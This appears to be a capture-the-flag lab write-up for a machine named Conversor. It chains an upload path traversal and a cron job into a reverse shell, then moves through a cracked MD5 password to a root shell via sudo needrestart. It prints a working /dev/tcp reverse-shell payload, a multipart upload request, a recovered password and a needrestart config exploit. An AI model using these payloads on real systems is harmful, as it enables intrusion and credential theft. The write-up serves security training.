

## Reconnaissance

Started with a standard Nmap service scan:

```bash
nmap -sC -sV 10.129.238.31
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://conversor.htb/
```

Two ports open: **SSH (22)** and **HTTP (80)**. The HTTP service redirects to `conversor.htb`, so the hostname was added to `/etc/hosts`:

```bash
echo "10.129.238.31 conversor.htb" >> /etc/hosts
```

## Web Enumeration

Visiting `http://conversor.htb` revealed a web application called **Conversor** — a tool that takes an Nmap XML output file and an XSLT stylesheet, then renders a styled HTML report.



Initial testing covered:

- **XML injection** — no result
- **XSS** — no result
- **LFI** — no result

Navigating to `http://conversor.htb/about` revealed a **Download Source Code** button. The source was downloaded for manual review.

## Source Code Review

Inside the source code, two critical issues were found.

### Issue 1 — No File Extension Validation

```python
xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
```

The application uses `os.path.join()` to construct file paths from user-supplied filenames **without any extension or path validation**. In Python, if a filename begins with `/`, `os.path.join()` discards all previous components and treats the new segment as an absolute path. An attacker can therefore control exactly where uploaded files are written on disk.

### Issue 2 — Cron Job Executes Scripts from a Known Directory

Inside `README.md` bundled with the source:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

Any `.py` file placed in `/var/www/conversor.htb/scripts/` is **automatically executed every minute** as `www-data`.

## Initial Foothold

### Exploit Chain

Combining both issues: upload a Python reverse shell directly into the scripts directory using path traversal in the filename field.

A listener was started on the attacker machine:

```bash
nc -lvnp 4444
```

The upload request was intercepted and modified in Burp Suite, setting the `filename` to an absolute path pointing into the cron target directory:

```
------geckoformboundaryd0a84a3c2ac84e45e06c89c42994f6da
Content-Disposition: form-data; name="xml_file"; filename="/var/www/conversor.htb/scripts/exploit.py"
Content-Type: text/x-python-script

import os

os.system("bash -c 'bash -i >& /dev/tcp/10.10.15.223/4444 0>&1'")
```

Within a minute, the cron job picked up and executed the script, delivering a reverse shell:

```
www-data@conversor:~/conversor.htb/instance$
```

## Lateral Movement

With a shell as `www-data`, the application's instance directory contained an SQLite database:

```bash
sqlite3 users.db
```

```sql
sqlite> .tables
files  users

sqlite> SELECT * FROM users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|admin|21232f297a57a5a743894a0e4a801fc3
```

The MD5 hash for `fismathack` was cracked:

```
5b5c3ac3a1c897c94caad48e6c71fdec -> Keepmesafeandwarm
```

SSH login with the recovered credentials:

```bash
ssh fismathack@conversor.htb
# Password: Keepmesafeandwarm
```

```
fismathack@conversor:~$ whoami
fismathack
```

## Privilege Escalation

### Sudo Enumeration

```bash
sudo -l
```

```
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

The user can run `needrestart` as root without a password.

### needrestart Exploitation

`needrestart` supports a `-c` flag to specify a custom configuration file. A malicious config file was crafted to spawn a privileged shell using the `exec` directive:

```bash
echo 'exec "/bin/bash -p";' > /tmp/exploit.conf
sudo /usr/sbin/needrestart -c /tmp/exploit.conf
```

```
root@conversor:/home/fismathack# whoami
root
```

Root access achieved.
